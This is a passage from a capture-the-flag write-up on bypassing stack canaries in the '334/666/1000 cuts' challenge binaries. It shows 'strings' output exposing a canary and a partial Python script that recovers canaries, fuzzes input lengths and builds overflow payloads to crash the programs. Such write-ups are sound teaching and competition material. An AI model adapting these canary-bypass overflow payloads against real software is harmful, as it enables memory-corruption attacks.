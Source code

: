 
So to summarize, a naive but successful approach can have these properties:

  1. Find the canary value.
  2. Find the offset of the input string where the canary is checked by fuzz testing between 'canary ok' and 'hacking detected' messages
  3. Send the string and canary. Validate our binary works. It should output 'canary ok' with some string with strlen > our strlen found in step 2

Interesting is the approach we took for #1. I found that using 'strings' on the binary for strings >= 8 bytes and then filtering out some static strings we could always locate an accurate canary value. So we just used that in the solution you'll see later.


```
vagrant@crs:~/cuts/334_cuts$ strings -n 8 easy-prasky-with-buffalo-on-bing 
lddwDrwhkTEBSya_				# Canary
hacking detected, see ya		# Static for every binary
canary ok						# Static for every binary
clang-cgc version 3.4 (9085)	# Static for every binary
.shstrtab						# Static for every binary
.comment						# Static for every binary

```


When submitting the solution we find for our binary, we must send a base64 encoded string which, when decoded and input into the target binary will successfully bypass the canary and successfully crash (segfault) the program.

We automated this as below, we found this approach worked for all three challenges with no code changes.


```
#!/usr/bin/python

from subprocess import PIPE, Popen, check_output, call
import glob
import base64

print "[*] Extracting challenges..."
[call(['tar','xf',c]) for c in ['1000_cuts.tar.bz2','334_cuts.tar.bz2','666_cuts.tar.bz2']]

print "[*] Loading all canaries..."
canaries = {}
for r in check_output(["strings -f -n 8 334_cuts/easy* 666_cuts/* 1000_cuts/* | grep -Ev 'hacking|canary|clang|shstrtab|comment'"], shell=True).splitlines():
    fname, canary = r.split(': ')
    canaries[fname] = [canary]
print "[*] Loaded canaries for",len(canaries),"files"

dbout = open('hakdb.txt','w') # save them for later
print "[*] Fuzzing all files..."
for k in canaries:
    if 'xml' in k:
        continue
    print "[*] Fuzzing",k
    for i in range(8,200):
        p = Popen(['./'+k],stdout=PIPE,stdin=PIPE)
        stdout = p.communicate(('A' * i) + "\n")[0]
        if 'hacking' in stdout:
            print "[*] Hacking detected at len",i
            canaries[k].append(i)
            cbytes = canaries[k][0][:4]
            payload = "A" * i
            payload += cbytes
            payload += "C\n"
            p = Popen(['./'+k],stdout=PIPE,stdin=PIPE)
```